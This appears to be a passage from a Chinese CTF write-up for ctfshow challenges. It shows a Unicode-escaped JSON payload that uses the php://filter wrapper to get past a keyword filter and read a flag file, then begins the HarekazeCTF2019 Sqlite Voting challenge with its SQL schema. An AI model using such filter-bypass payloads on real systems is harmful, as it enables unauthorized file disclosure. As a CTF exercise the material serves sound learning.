    那么被过滤的东西用Unicode编码一下即可，然后就利用file_get_contents+伪协议即可

2. php伪协议

   ```
   php://filter/convert.base64-encode/resource=flag
   ```

   payload:

   ```
   GET: 
   ?source=1
   
   POST:
   {"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006C\u0061\u0067"}
   ```

   

发现hackbar也可以用raw方式传了，不过要选这个enctype

![](https://s2.loli.net/2022/01/28/lxVKF1jeEaN43Gg.png)





## 705-[HarekazeCTF2019] Sqlite Voting



在source.code给出了源码

可以看到flag位于表flag中

```sql
/* schema.sql */
DROP TABLE IF EXISTS `vote`;
CREATE TABLE `vote` (
  `id` INTEGER PRIMARY KEY AUTOINCREMENT,
  `name` TEXT NOT NULL,
  `count` INTEGER
);
INSERT INTO `vote` (`name`, `count`) VALUES
  ('dog', 0),
  ('cat', 0),
  ('zebra', 0),
  ('koala', 0);

DROP TABLE IF EXISTS `flag`;
CREATE TABLE `flag` (
  `flag` TEXT NOT NULL
);
INSERT INTO `flag` VALUES ('ctfshow{<redacted>}');

```

vote中给出了查询语句，但是存在正则过滤
